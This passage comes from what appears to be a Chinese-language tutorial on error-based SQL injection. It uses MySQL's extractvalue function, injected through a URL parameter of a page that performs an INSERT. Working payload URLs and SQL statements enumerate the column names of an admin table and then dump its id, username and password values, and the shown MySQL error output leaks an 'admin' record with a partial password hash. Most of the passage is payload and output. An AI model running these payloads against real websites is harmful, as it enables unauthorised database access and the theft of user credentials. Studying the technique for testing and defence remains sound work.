 limit 0 表示要爆的位置

例如:

表tdb_admin的字段为 id,usernam,password

limit 0 = id

limit 1 = username

limit 2 = password

web语句: http://www.test.com/sql_add.php?data=extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,column_name,0x7e) FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1)))

数据库语句-爆test库 tdb_admin表的字段名: INSERT INTO test (test) value (extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,column_name,0x7e) FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1))));

```plain
mysql> INSERT INTO test (test) value (extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,column_name,0x7e) FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1))));
ERROR 1105 (HY000): XPATH syntax error: '~~id~'
```

## 0x05 爆内容

注意: limit 0 表示要显示那一条数据

limit 0 表示第一条

limit 1 表示第二条

web语句: http://www.test.com/sql_add.php?data=extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,字段名,0x3a,字段名,0x3a,字段名,0x7e) FROM 库名.表名 limit 0,1)))

数据库语句: INSERT INTO test (test) value (extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,字段名,0x3a,字段名,0x3a,字段名,0x7e) FROM 库名.表名 limit 0,1))))

```plain
mysql> INSERT INTO test (test) value (extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,id,0x3a,username,0x3a,password,0x7e) FROM test.tdb_admin limit 0,1))));
ERROR 1105 (HY000): XPATH syntax error: '~~1:admin:7fef6171469e80d32c0559'
```